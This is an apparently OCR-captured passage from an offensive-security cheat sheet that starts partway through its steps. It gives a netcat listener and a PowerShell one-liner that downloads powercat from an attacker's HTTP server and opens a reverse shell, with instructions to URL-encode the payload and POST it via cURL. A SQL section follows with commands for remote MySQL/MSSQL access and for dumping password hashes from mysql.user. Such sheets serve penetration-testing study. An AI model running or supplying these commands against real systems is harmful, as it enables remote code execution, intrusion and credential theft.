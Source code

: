 3) Setting up your netcat listener (with/without rlwrap):
```
nc -nvlp $lport
```

4) Encode this as url and send it via cURL POST request:
```
IEX (New-Object
System.Net.Webclient).DownloadString("http://http_server_ip/powercat.ps1");powercat -c
your_ip -p lport -e powershell
```

```
curl -X POST -d 'your_payload'
```
### SQL Injections
#### Some basic commands
Remote SQL access:
```
mysql -u root -p'root' -h 192.168.50.16 -P 3306
```

Check version:
```
select version();
```

Check user:
```
select system_user();
```

List all databases:
```
show databases;
```

Select user and authentication_string from from mysql.usqr where user is `user`:
```
SELECT user, authentication_string FROM mysql.user WHERE user =
'user';
```

Connect to mssql using impacket:
```
impacket-mssqlclient username:password@$rhosts -windows-auth
```

Check version:
```
SELECT @@version;
```

List all databases:
```
SELECT name FROM sys.databases;
```

Show tables from `user` database:
```
SELECT * FROM user.information_schema.tables;
```
